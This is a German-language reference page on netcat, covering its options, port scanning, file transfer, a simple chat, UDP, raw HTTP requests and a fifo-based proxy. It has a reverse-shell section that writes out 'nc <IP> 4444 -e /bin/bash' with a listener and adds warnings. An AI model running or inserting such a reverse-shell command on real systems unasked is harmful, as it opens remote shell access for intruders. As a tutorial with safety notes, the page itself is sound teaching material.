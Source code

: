 ```yaml
---
title: Netcat
layout: default
nav_order: 6
---
```


#### Table of Contents
{: .no_toc .text-delta }

- 1
- 2
- 3
{:toc}

# Netcat

Netcat ist ein vielseitiges Tool zur Arbeit mit TCP- und UDP-Verbindungen. Es wird oft als "Schweizer Taschenmesser" für Netzwerke bezeichnet und eignet sich für Port-Scans, Datenübertragung, Debugging und einfache Server/Client-Kommunikation.

[Netcat Manpage](https://man7.org/linux/man-pages/man1/nc.1.html)

#### **Grundlegende Syntax**
```
nc [Optionen] <Ziel> <Port>
```

---

### **Häufig verwendete Optionen**

- **`-l`** → Lauscht auf eingehenden Verbindungen (Listen-Modus).  
- **`-p`** → Gibt den Port an, auf dem Netcat lauschen soll.  
- **`-u`** → Nutzt UDP anstelle von TCP.  
- **`-v`** → Zeigt detaillierte Verbindungsinformationen an (verbose).  
- **`-z`** → "Zero-I/O"-Modus, häufig für Port-Scans verwendet.  
- **`-w <Sekunden>`** → Timeout für Verbindungen festlegen.  
- **`-e <Programm>`** → Führt ein Programm aus, wenn eine Verbindung hergestellt wird (z. B. Shell). **(Achtung: Kann von Angreifern ausgenutzt werden.)**

---

### **Anwendungsfälle**

#### **1. Port-Scan**
```bash
nc -zv <IP-Adresse> <Port-Bereich>
```
Beispiel:
```bash
nc -zv 192.168.1.1 20-80
```
- **`-z`** → Sendet keine Daten, prüft nur, ob der Port offen ist.
- **`-v`** → Gibt detaillierte Ergebnisse aus.

#### **2. Einfache Verbindung zu einem Server**
```bash
nc <IP-Adresse> <Port>
```
Beispiel:
```bash
nc 192.168.1.1 80
```
- Baut eine Verbindung zu einem HTTP-Server auf. Eingabe von HTTP-Befehlen wie `GET /` möglich.

#### **3. Lokalen TCP-Server starten**
```bash
nc -l -p <Port>
```
Beispiel:
```bash
nc -l -p 1234
```
- Lauscht auf Port 1234 für eingehende Verbindungen.

#### **4. Dateiübertragung**
- **Datei senden:**
  ```bash
  nc <Ziel-IP> <Port> < datei.txt
  ```
- **Datei empfangen:**
  ```bash
  nc -l -p <Port> > empfangene_datei.txt
  ```

Beispiel:
- Auf Server (empfangen):
  ```bash
  nc -l -p 1234 > empfangene_datei.txt
  ```
- Auf Client (senden):
  ```bash
  nc 192.168.1.1 1234 < datei.txt
  ```

#### **5. Chat-Verbindung**
- **Server:**
  ```bash
  nc -l -p <Port>
  ```
- **Client:**
  ```bash
  nc <Ziel-IP> <Port>
  ```
Beispiel:
- Server:
  ```bash
  nc -l -p 1234
  ```
- Client:
  ```bash
  nc 192.168.1.1 1234
  ```

#### **6. Reverse Shell (Vorsicht!)**
- **Auf Server lauschen:**
  ```bash
  nc -l -p <Port>
  ```
- **Shell senden (auf Ziel):**
  ```bash
  nc <Ziel-IP> <Port> -e /bin/bash
  ```
Beispiel:
- Server:
  ```bash
  nc -l -p 4444
  ```
- Client:
  ```bash
  nc 192.168.1.1 4444 -e /bin/bash
  ```

**Achtung:** Reverse Shells können ein großes Sicherheitsrisiko darstellen. Nutzung nur in sicheren und kontrollierten Umgebungen.

---

### **Erweiterte Nutzung**

#### **1. UDP-Server und Client**
- **UDP-Server starten:**
  ```bash
  nc -u -l -p <Port>
  ```
- **UDP-Client verbinden:**
  ```bash
  nc -u <Ziel-IP> <Port>
  ```

#### **2. HTTP-Anfragen senden**
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc <IP-Adresse> 80
```
Beispiel:
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc 93.184.216.34 80
```

#### **3. Verbindung mit Timeout**
```bash
nc -w <Sekunden> <Ziel-IP> <Port>
```
Beispiel:
```bash
nc -w 5 192.168.1.1 80
```
- Beendet die Verbindung, wenn nach 5 Sekunden keine Antwort erfolgt.

#### **4. Proxy-Datenverkehr analysieren**
Netcat kann genutzt werden, um zwischen zwei Hosts als Proxy zu fungieren:
```bash
mkfifo /tmp/proxy
nc -l -p 8080 < /tmp/proxy | nc <Ziel-IP> 80 > /tmp/proxy
```

---

### **Fehlerbehebung und Tipps**

- **Problem:** Verbindung schlägt fehl.  
  **Lösung:** Prüfe Firewall-Einstellungen und stelle sicher, dass der Port auf beiden Seiten offen ist.

- **Problem:** Keine Ausgabe bei `-zv`.  
  **Lösung:** Teste explizit mit verschiedenen Protokollen (`-u` für UDP oder ohne `-u` für TCP).

- **Problem:** Datenübertragung zu langsam.  
  **Lösung:** Nutze spezialisierte Tools wie SCP oder rsync für große Dateien.

---

### **Sicherheitswarnung**

Netcat kann bei unsachgemäßer Verwendung Sicherheitsrisiken darstellen, insbesondere durch die Nutzung der Option `-e` (Remote Execution). Stelle sicher, dass das Tool nur in vertrauenswürdigen Umgebungen und mit ausreichender Zugriffskontrolle eingesetzt wird.
